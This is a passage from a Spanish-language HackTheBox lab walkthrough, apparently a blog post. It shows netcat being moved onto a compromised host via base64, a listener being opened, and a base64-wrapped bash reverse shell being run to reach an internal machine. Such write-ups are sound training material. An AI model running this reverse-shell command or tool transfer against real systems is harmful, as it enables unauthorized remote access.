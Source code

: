 ```bash
❱ base64 -w 0 nc
```

Copiamos el output y en la `.2` ejecutamos:

```bash
www-data@web:/tmp/test$ echo "f0VMRgIBAQAAAAAAAAAAAAMAPgABAAAAsDAAAAAA
...
...
...
BAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAA" | base64 -d > nc
```

Validamos integridad:

```bash
❱ md5sum nc
7e6f1531bbae64b64630bad39c9bab5e  nc
```

```bash
www-data@web:/tmp/test$ md5sum nc 
7e6f1531bbae64b64630bad39c9bab5e  nc
```

Listos, pues ahora sí, pongámonos en escucha y generemos la p**** Shell :P

```bash
www-data@web:/tmp/test$ chmod +x nc 
www-data@web:/tmp/test$ hostname -I
172.20.0.10 192.168.254.2
www-data@web:/tmp/test$ ./nc -lvp 4433
listening on [any] 4433 ...
```

Para evitarnos problemitas hacemos esto:

```bash
❱ echo "bash -i >& /dev/tcp/192.168.254.2/4433 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI1NC4yLzQ0MzMgMD4mMQo=
```

Tomamos la cadena y en la máquina `.3` ejecutamos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/static/355bash_fpmPY_revSHto2.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Yyyyyy en la `.2`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/static/355bash_www-dataPKI_revSH.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

VAMOOOOOOOOOOOOOOOOOOOOOOOOOO, ahora siiiiiiiiiiiiiii, tenemos una Reverse Shell en la máquina `192.168.254.3`, per fec to.

...

Antes de seguir hagámosle un masaje a la Shell para que quede increíble:

* [https://lanzt.gitbook.io/cheatsheet-pentest/tty](https://lanzt.gitbook.io/cheatsheet-pentest/tty)
